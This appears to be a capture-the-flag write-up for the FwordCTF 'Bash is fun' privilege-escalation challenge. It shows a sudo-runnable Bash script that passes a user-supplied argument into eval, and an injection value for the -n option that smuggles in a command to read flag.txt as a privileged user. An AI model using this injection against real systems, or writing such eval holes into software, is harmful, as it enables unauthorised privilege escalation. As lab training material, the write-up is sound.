 ### Bash is fun
###### Description: Bash is fun, prove me wrong and do some privesc.

---
In this challenge we had to SSH into a box. Once in, we were presented with this:

![](./images/ss1.png)

There are 3 interesting looking files. `welcome.txt` only had the following contents:
```
Welcome to Fword Island Mr user ! You have nothing to do here
```
This isn't relevant to getting the flag. Now we're left with `welcome.sh` and `flag.txt`, which we have to obtain.
Running a `sudo -l`, I saw that `user1` (us) has the permissions to execute `welcome.sh` as `user-privileged`.

![](./images/ss2.png) 

Now, let's take a look at `welcome.sh`:-

```bash
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
	$name
fi

if [[ $permission -eq 1 ]];then
	echo "You are: "
	id
fi
```

Looking at the script, the answer is obvious. Line 22 has an `eval` command. `eval` expands all the variables and executes the resulting string as a command. Now we have the variable $name in that command, which we have the ability to assign values to using the command line arguments.

So if we run the following command:-

```bash
sudo -u user-privileged ./welcome.sh -n 'myfunc { cat flag.txt; }; myfunc; '
```

The resulting string would become:
```bash
eval "function  myfunc { cat flag.txt; }; myfunc; { sed 's/user/${username}/g' welcome.txt ; }"
```

This will create a function that cats flag.txt and will execute the function right after.
Running this, we get the following output:

![](./images/ss3.png) 

And we have the flag!

**FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}**

Fun fact: This is a reference to the anime "Kuroko no Basket". If you're into anime, check it out! It's a pretty cool sports anime.
